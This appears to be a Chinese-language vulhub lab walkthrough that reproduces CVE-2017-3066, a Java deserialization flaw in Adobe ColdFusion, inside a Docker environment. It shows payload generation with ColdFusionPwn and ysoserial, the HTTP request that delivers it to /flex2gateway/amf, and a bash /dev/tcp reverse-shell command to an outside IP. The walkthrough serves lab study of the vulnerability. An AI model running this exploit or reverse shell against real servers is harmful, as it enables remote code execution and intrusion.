


### Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）


### 漏洞原理

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe  ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update  11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## 复现漏洞

### 启动环境

进入路径为

```
cd /root/vulhub/coldfusion/CVE-2017-3066
1
```

搭建及运行漏洞环境：

```
docker-compose build && docker-compose up -d
1
```

此本安装环境需要大概1G+的数据下载，网络不好的起来走动走动吧:)

 环境启动成功后，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。


## 漏洞复现

### 生成POC

使用[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC。
 [下载ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn/releases/download/0.0.1/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)
 [下载ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
 【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
1
```

【再注意】上面的命令在Win10下我没有执行成功，错误提示为`错误: 找不到或无法加载主类 com.codewhitesec.coldfusionpwn.ColdFusionPwner`。在Kali成功生成了?

### 发送POC

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
1234567891011
```


### 发送POC内容

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

 正确发送方式为：
 右击选择**Paste From File**，上传**poc.cer**文件
 

 【感谢豆老师?的纠错，以及科普编码问题】?
 再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存


#### 检验POC

##### 进入容器

###### 通过DockerID进入容器

```
docker exec -it 容器ID /bin/bash  
1
```

###### 查看容器ID

```
docker ps
1
```


###### 通过Docker名字进入容器

```
docker-compose exec 容器名字 bash
1
```

比如本次环境中是：

```
docker-compose exec coldfusion bash
1
```

##### 查看/tmp/

```
ls /tmp/
1
```

发现`/tmp/success`已成功创建：

 将POC改成[反弹命令](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，成功拿到shell：


### 反弹Shell

#### 格式

```
bash -i >& /dev/tcp/ip/port 0>&1
1
```

#### 例子

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```